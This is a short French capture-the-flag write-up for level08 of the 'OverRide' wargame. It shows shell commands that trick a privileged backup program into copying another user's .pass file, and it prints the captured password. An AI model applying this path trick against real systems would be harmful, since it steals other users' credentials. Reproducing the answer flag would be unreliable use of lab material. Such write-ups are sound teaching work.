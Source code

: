# level08

Apparemment le programme ouvre le fichier en paramètre et en fait un backup dans `./backups/`

Si on essaye de lui faire faire un backup du `.pass` du level09, ça ne fonctionne pas car le path pour faire le backup n'existe pas
```level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

On a juste a créer le path en question dans `/tmp` et à lancer l'exécutable depuis la bas pour pouvoir faire un backup du `.pass`
```sh
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups/.log
level08@OverRide:/tmp$ mkdir -p ./backups
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S```